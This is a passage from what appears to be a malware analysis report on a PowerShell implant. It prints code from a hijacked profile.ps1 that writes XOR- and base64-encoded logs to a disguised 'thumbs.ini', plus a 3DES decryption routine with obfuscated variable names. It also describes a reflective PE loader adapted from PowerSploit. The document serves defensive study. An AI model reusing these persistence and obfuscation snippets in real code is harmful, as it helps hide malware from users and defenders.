 ```
}
catch{$([Convert]::ToBase64String($([Text.Encoding]::ASCII.GetBytes("<m>$([DateTime]::Now.ToString('G')): $_
</m>") | %{ $_ -bxor 0xAA })) + "|") | Out-File 'C:\Users\Public\Downloads\thumbs.ini' -Append}
```
**Figure 3. Hijacked profile.ps1 file**

The base64-encoded PowerShell command is very similar to the one used in the WMI consumers.\

#### Decryption

The payload stored in the Windows registry is another PowerShell script. It is generated using the open-source script
<a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1" > Out-EncryptedScript.ps1 </a> from the Penetration testing framework <a href="https://github.com/PowerShellMafia/PowerSploit" > PowerSploit </a>. In addition, the variable names are randomized to obfuscate the script, as shown in Figure 4.

```
$GSP540cd = "<base64 encoded + encrypted payload>";
$RS99ggf = $XZ228hha.GetBytes("PINGQXOMQFTZGDZX");
$STD33abh = [Convert]::FromBase64String($GSP540cd);
$SB49gje = New-Object System.Security.Cryptography.PasswordDeriveBytes($IY51aab,
$XZ228hha.GetBytes($CBI61aeb), "SHA1", 2);
[Byte[]]$XYW18ja = $SB49gje.GetBytes(16);
$EN594ca = New-Object System.Security.Cryptography.TripleDESCryptoServiceProvider;
$EN594ca.Mode = [System.Security.Cryptography.CipherMode]::CBC;
[Byte[]]$ID796ea = New-Object Byte[]($STD33abh.Length);
$ZQD772bf = $EN594ca.CreateDecryptor($XYW18ja, $RS99ggf);
$DCR12ffg = New-Object System.IO.MemoryStream($STD33abh, $True);
$WG731ff = New-Object System.Security.Cryptography.CryptoStream($DCR12ffg, $ZQD772bf,
[System.Security.Cryptography.CryptoStreamMode]::Read);
$XBD387bb = $WG731ff.Read($ID796ea, 0, $ID796ea.Length);
$OQ09hd = [YR300hf]::IWM01jdg($ID796ea);
$DCR12ffg.Close();
$WG731ff.Close();
$EN594ca.Clear();
return $XZ228hha.GetString($OQ09hd,0,$OQ09hd.Length);
```

**Figure 4. Decryption routine**
The payload is decrypted using the <a href="https://en.wikipedia.org/wiki/Triple_DES" > 3DES </a>  algorithm. The Initialization Vector, PINGQXOMQFTZGDZX in this
example, is different for each sample. The key and the salt are also different for each script and are not stored in the
script, but only in the WMI filter or in the profile.ps1 file.

### PE loader
The payload decrypted at the previous step is a PowerShell reflective loader. It is based on the script <a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1" > InvokeReflectivePEInjection.ps1 </a> from the same PowerSploit framework. The executable is hardcoded in the script and is loaded directly into the memory of a randomly chosen process that is already running on the system . 

